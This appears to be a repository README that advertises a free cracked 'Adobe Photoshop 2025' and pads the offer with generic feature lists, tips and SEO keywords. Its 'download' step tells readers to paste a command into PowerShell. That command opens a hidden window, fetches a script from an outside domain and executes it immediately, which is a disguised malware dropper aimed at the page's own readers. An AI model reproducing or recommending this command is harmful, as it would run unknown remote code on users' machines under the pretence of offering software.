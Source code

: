 ## **Photoshop Cracked** | **Adobe Photoshop 2025** 🖌️📷
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>
## Project Description.
**Adobe Photoshop ** is a powerful image editing software used by professionals and enthusiasts alike. This guide provides information on how to download Adobe Photoshop for free, as well as tips on how to effectively utilize its features.

## Key Features.
- **Advanced Image Editing**: Edit photos with precision using a wide range of tools.
- **Layer Management**: Organize your work using layers to create complex compositions.
- **Filters & Effects**: Apply stunning filters and effects to enhance your images.
- **Text & Typography**: Add and manipulate text in graphic design projects.
- **Creative Cloud Integration**: Access your projects from anywhere with cloud storage.


##Tips for using Adobe Photoshop 🎨
- **Learn the tutorials**: Take advantage of Adobe's extensive library of tutorials to learn about various features.
- **Use keyboard shortcuts**: Familiarize yourself with keyboard shortcuts to speed up your workflow.
- **Experiment with tools**: Feel free to try different tools and effects to unlock their potential.

## License 📄.
Adobe Photoshop is a proprietary software product. The free trial version allows you to use the program for a limited time without being charged.

## Useful Links 🌐
- [Adobe Photoshop Tutorials](https://helpx.adobe.com/photoshop/tutorials.html)
- [Adobe Creative Cloud](https://www.adobe.com/creativecloud.html)

---

**SEO Keywords**: Adobe Photoshop, free download, image editing, image editing, graphic design, photo editing, Photoshop alternatives, Creative Cloud.
